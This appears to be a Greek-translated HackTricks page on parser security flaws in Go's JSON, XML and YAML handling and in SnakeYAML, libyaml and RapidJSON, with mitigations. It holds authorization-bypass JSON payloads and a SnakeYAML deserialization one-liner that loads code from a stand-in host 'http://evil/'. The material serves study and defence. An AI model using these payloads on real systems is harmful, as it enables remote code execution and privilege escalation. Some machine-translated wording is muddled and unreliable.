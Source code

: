 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Οι παρακάτω προβλήματα ανιχνεύθηκαν στο Go JSON αν και θα μπορούσαν να είναι παρόντα και σε άλλες γλώσσες. Αυτά τα προβλήματα δημοσιεύθηκαν σε [**αυτή την ανάρτηση στο blog**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Οι αναλυτές JSON, XML και YAML του Go έχουν μια μακρά πορεία ασυνεπειών και ανασφαλών προεπιλογών που μπορούν να εκμεταλλευτούν για να **παρακάμψουν την αυθεντικοποίηση**, **κλιμακώσουν προνόμια** ή **εξάγουν ευαίσθητα δεδομένα**.

### (Un)Marshaling Unexpected Data

Ο στόχος είναι να εκμεταλλευτεί δομές που επιτρέπουν σε έναν επιτιθέμενο να διαβάσει/γράψει ευαίσθητα πεδία (π.χ., `IsAdmin`, `Password`).

- Παράδειγμα Δομής:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Κοινές Ευπάθειες

1. **Απουσία ετικέτας** (χωρίς ετικέτα = το πεδίο αναλύεται ακόμα από προεπιλογή):
```go
type User struct {
Username string
}
```
Πληροφορία:
```json
{"Username": "admin"}
```
2. **Λάθος χρήση του `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Πληροφορία:
```json
{"-": true}
```
✔️ Σωστός τρόπος για να αποκλείσετε το πεδίο από το να (απο)μαρσαριστεί:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Διαφορές Αναλυτών

Ο στόχος είναι να παρακαμφθεί η εξουσιοδότηση εκμεταλλευόμενοι το πώς διαφορετικοί αναλυτές ερμηνεύουν το ίδιο φορτίο διαφορετικά όπως σε:
- CVE-2017-12635: Παράκαμψη Apache CouchDB μέσω διπλών κλειδιών
- 2022: Zoom 0-click RCE μέσω ασυνέπειας αναλυτή XML
- GitLab 2025 SAML παράκαμψη μέσω ιδιαιτεροτήτων XML

**1. Διπλά Πεδία:**
Ο `encoding/json` του Go παίρνει το **τελευταίο** πεδίο.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Άλλοι αναλυτές (π.χ., Jackson της Java) μπορεί να πάρουν το **πρώτο**.

**2. Αδιαφορία Περί Περίπτωσης:**
Το Go είναι αδιάφορο ως προς την περίπτωση:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Ακόμα και τα κόλπα Unicode λειτουργούν:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Διαφορετικότητα διασύνδεσης υπηρεσιών:**
Φανταστείτε:
- Proxy γραμμένο σε Go
- Υπηρεσία AuthZ γραμμένη σε Python

Ο επιτιθέμενος στέλνει:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python βλέπει το `UserAction`, το επιτρέπει
- Go βλέπει το `AdminAction`, το εκτελεί


### Σύγχυση Μορφής Δεδομένων (Polyglots)

Ο στόχος είναι να εκμεταλλευτούμε συστήματα που αναμειγνύουν μορφές (JSON/XML/YAML) ή αποτυγχάνουν να κλείσουν σε σφάλματα αναλυτή όπως:
- **CVE-2020-16250**: Το HashiCorp Vault ανέλυσε JSON με έναν αναλυτή XML μετά την επιστροφή JSON από το STS αντί για XML.

Ο επιτιθέμενος ελέγχει:
- Την κεφαλίδα `Accept: application/json`
- Μερικό έλεγχο του σώματος JSON

Ο αναλυτής XML του Go το ανέλυσε **οπωσδήποτε** και εμπιστεύτηκε την εισαγόμενη ταυτότητα.

- Δημιουργημένο payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` inside the string

---

## Σημαντικές Ευπάθειες Παρσέρ (2023-2025)

> Τα παρακάτω δημόσια εκμεταλλεύσιμα ζητήματα δείχνουν ότι η ανασφαλής παρσάρισμα είναι ένα πρόβλημα πολλών γλωσσών — όχι μόνο πρόβλημα του Go.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Αφορά: `org.yaml:snakeyaml` < **2.0** (χρησιμοποιείται από Spring-Boot, Jenkins, κ.λπ.).
* Αιτία: `new Constructor()` αποσυναρμολογεί **τυχαίες κλάσεις Java**, επιτρέποντας αλυσίδες gadget που καταλήγουν σε εκτέλεση απομακρυσμένου κώδικα.
* One-liner PoC (θα ανοίξει την αριθμομηχανή στον ευάλωτο υπολογιστή):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Διόρθωση / Μετριασμός:
1. **Αναβάθμιση σε ≥2.0** (χρησιμοποιεί `SafeLoader` από προεπιλογή).
2. Σε παλαιότερες εκδόσεις, χρησιμοποιήστε ρητά `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Επηρεάζει: `libyaml` ≤0.2.5 (C βιβλιοθήκη που χρησιμοποιείται από πολλές γλώσσες).
* Ζήτημα: Η κλήση `yaml_event_delete()` δύο φορές οδηγεί σε διπλή απελευθέρωση που οι επιτιθέμενοι μπορούν να μετατρέψουν σε DoS ή, σε ορισμένα σενάρια, εκμετάλλευση σωρού.
* Κατάσταση: Ο upstream το απέρριψε ως “κακή χρήση API”, αλλά οι διανομές Linux παρέδωσαν διορθωμένη έκδοση **0.2.6** που μηδενίζει τον δείκτη αμυντικά.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Επηρεάζει: Tencent **RapidJSON** πριν την δέσμευση `8269bc2` (<1.1.0-patch-22).
* Σφάλμα: Στη μέθοδο `GenericReader::ParseNumber()` η μη ελεγχόμενη αριθμητική επιτρέπει στους επιτιθέμενους να δημιουργήσουν τεράστιες αριθμητικές λεκτικές που περιτυλίγονται και διαφθείρουν τον σωρό — τελικά επιτρέποντας την κλιμάκωση προνομίων όταν το προκύπτον αντικείμενο χρησιμοποιείται για αποφάσεις εξουσιοδότησης.

---

### 🔐 Μετριασμοί (Ενημερωμένο)

| Κίνδυνος                            | Διόρθωση / Σύσταση                                      |
|-------------------------------------|------------------------------------------------------------|
| Άγνωστα πεδία (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Διπλά πεδία (JSON)                 | ❌ Καμία διόρθωση στη stdlib — επικυρώστε με [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Αντιστοίχιση χωρίς διάκριση πεζών-κεφαλαίων (Go) | ❌ Καμία διόρθωση — επικυρώστε τις ετικέτες δομής + προ-κανονικοποιήστε την είσοδο   |
| XML σκουπίδια δεδομένα / XXE        | Χρησιμοποιήστε έναν σκληρυμένο αναλυτή (`encoding/xml` + `DisallowDTD`)     |
| YAML άγνωστα κλειδιά               | `yaml.KnownFields(true)`                                   |
| **Μη ασφαλής αποσυμπίεση YAML**    | Χρησιμοποιήστε SafeConstructor / αναβαθμίστε σε SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 διπλή απελευθέρωση   | Αναβαθμίστε σε **0.2.6** ή σε έκδοση με διορθώσεις διανομής            |
| RapidJSON <διορθωμένη δέσμευση     | Συγκεντρώστε κατά την τελευταία RapidJSON (≥Ιούλιος 2024)              |

## Αναφορές

- Baeldung – “Επίλυση CVE-2022-1471 με SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
